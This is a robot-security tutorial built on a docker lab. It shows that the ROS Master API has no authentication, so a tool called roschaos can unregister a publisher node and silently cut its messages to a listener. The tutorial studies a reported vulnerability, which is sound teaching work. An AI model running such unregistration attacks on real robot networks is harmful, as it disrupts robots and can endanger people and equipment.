 ### Unauthenticated registration/unregistration with ROS Master API

In this tutorial we'll review how the [ROS Master API](http://wiki.ros.org/ROS/Master_API#register.2BAC8-unregister_methods) requires no authentication capabilities to register and unregister publishers, subscribers and services. This leads to a [reported vulnerability] (https://github.com/aliasrobotics/RVDP/issues/87) that can easily be exploited with off-the-shelf penetration testing tools by an attacker with access to the internal robot network.

This work is heavily based on [1],[3] and [4].

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity11:latest .
```
and run with:
```bash
docker run -it basic_cybersecurity11:latest
```

----

Let's start by listing the ROS Nodes and Topics participating in the network. After launching the container:
```bash
root@d64845e9601e:/# rosrun scenario1 talker &
root@d64845e9601e:/# rosrun scenario1 listener
```

Now, let's get a second command line into the simulated robotic scenario running over docker. To do so:

```bash
| => docker ps
CONTAINER ID        IMAGE                          COMMAND                  CREATED             STATUS              PORTS               NAMES
935c390c1e49        basic_cybersecurity11:latest   "/root/launch_script…"   20 seconds ago      Up 19 seconds                           vibrant_chandrasekhar

| => docker exec -it 935c390c1e49 /bin/bash
root@935c390c1e49:/#

```

On the second terminal of the same docker instance:
```bash

root@d64845e9601e:/# rosnode list
/listener
/publisher
/rosout
root@d64845e9601e:/# rostopic list
/flag
/rosout
/rosout_agg
```

We can see that there're several Nodes, we're mainly interested on `/publisher` and `/listener`. Both, exchanging information through the `/flag` Topic as follows:

```bash
root@d64845e9601e:/# rostopic echo /flag
data: "br{N(*-E6NgwbyWc"
---
data: "br{N(*-E6NgwbyWc"
---
data: "br{N(*-E6NgwbyWc"
---
...
```

#### Unregistering `/publisher` from `/listener`

```bash
root@655447dc534c:/# rosnode list
/listener
/publisher
/rosout
root@655447dc534c:/# roschaos master unregister node --node_name /publisher
Unregistering /publisher
```

You will see that the listener stops getting messages. If we now verify it:

```bash
root@655447dc534c:/# rosnode list
/listener
/rosout
```

We observe that the ROS Master does not find `/publisher` anymore, it's been unregistered.
Furthermore, the process `talker` is still running:

```bash
root@655447dc534c:/# ps -e
  PID TTY          TIME CMD
    1 pts/0    00:00:00 launch_script.b
   31 pts/0    00:00:00 roscore
   42 ?        00:00:01 rosmaster
   55 ?        00:00:01 rosout
   72 pts/0    00:00:00 bash
   78 pts/1    00:00:00 bash
   90 pts/0    00:00:00 talker
  108 pts/0    00:00:01 listener
  174 pts/1    00:00:00 ps
```


### Bibliography
- [1] Mendia, G. O., Juan, L. U. S., Bascaran, X. P., Calvo, A. B., Cordero, A. H., Ugarte, I. Z., ... & Vilches, V. M. (2018). Robotics CTF (RCTF), a playground for robot hacking. arXiv preprint arXiv:1810.02690.
- [2] Scenarios of the Robotics CTF (RCTF), a playground to challenge robot security. Retrieved from https://github.com/aliasrobotics/RCTF
- [3] Dieber, B., Breiling, B., Taurer, S., Kacianka, S., Rass, S., & Schartner, P. (2017). Security for the Robot Operating System. Robotics and Autonomous Systems, 98, 192-203.
- [4] SROS2 Tutorial, IROS 2018. Retrieved from https://ruffsl.github.io/IROS2018_SROS2_Tutorial/.
- [5] roschaos. Retrieved from https://github.com/ruffsl/roschaos.
- [6] ROSPenTo. Retrieved from https://github.com/jr-robotics/ROSPenTo.
